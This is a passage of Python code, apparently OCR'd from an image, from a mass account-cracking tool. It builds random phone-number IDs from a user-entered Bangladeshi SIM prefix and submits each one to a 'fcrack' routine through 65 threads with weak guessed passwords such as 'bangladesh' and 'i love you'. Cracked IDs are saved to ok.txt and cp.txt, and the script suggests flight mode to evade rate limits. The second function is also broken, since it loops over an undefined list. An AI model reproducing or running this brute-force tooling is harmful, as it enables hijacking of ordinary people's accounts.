 	print(47*"-")
	input('Press Inter To Back Menu')
	fia()
#____________


#_______
def random_number3():
	uid=[]
	os.system('clear')
	print(logo)
	print('\x1b[92;1m[√] EXAMPLE :88017,88019,88018,88016.ETC')
	linex()
	kode = input('[+]\x1b[97;1m PUT YOUR SIM CODE : ')
	os.system('clear')
	print(logo)
	limit = int(input('\x1b[97;1m[+]How many numbers do you want to add ? '))
	for nmbr in range(limit):
		nmp = ''.join(random.choice(string.digits) for _ in range(7))
		uid.append(nmp)
	with ThreadPool(max_workers=65) as yaari:
		os.system('clear')
		print(logo)
		tl = str(len(uid))
		print('\x1b[97;1m[*] Total Acounts : '+tl)
		print('\x1b[97;1m[+] Ypur Select Code : '+kode)
		print('\x1b[1;91m[*] If You No Result Use Flight Mode ')
		linex()
		for guru in uid:
			uid = kode+guru
			pwx = [guru,kode+guru,'+88','bangladesh','Bangladesh','i love you']
			yaari.submit(fcrack,uid,pwx,tl)
	print(47*"-")
	print('[✓] Crack process has been completed')
	print('[?] Ids saved in ok.txt,cp.txt')
	print(47*"-")
	input('Press Inter To Back Menu')
	fia()
#___________
def bd():
	number=[]
	os.system('clear')
	print(logo)
	print('\x1b[92;1m[√] EXAMPLE : 88017,88019,88018,88016,.ETC')
	linex()
	kode = input('[+]\x1b[97;1m PUT YOUR SIM CODE : ')
	os.system('clear')
	print(logo)
	limit = int(input('\x1b[97;1m[+]How many numbers do you want to add ? '))
	for nmbr in range(limit):
		nmp = ''.join(random.choice(string.digits) for _ in range(7))
		number.append(nmp)
	with ThreadPool(max_workers=65) as yaari:
		os.system('clear')
		print(logo)
		tl = str(len(uid))
		print('\x1b[97;1m[*] Total Acounts : '+tl)
		print('\x1b[97;1m[+] Ypur Select Code : '+kode)
		print('\x1b[1;91m[*] If You No Result Use Flight Mode ')
		linex()
		for guru in uid:
			number = kode+guru
			pwx = [guru,kode+guru,'+88','bangladesh','Bangladesh','i love you']
			yaari.submit(fcrack,uid,pwx,tl)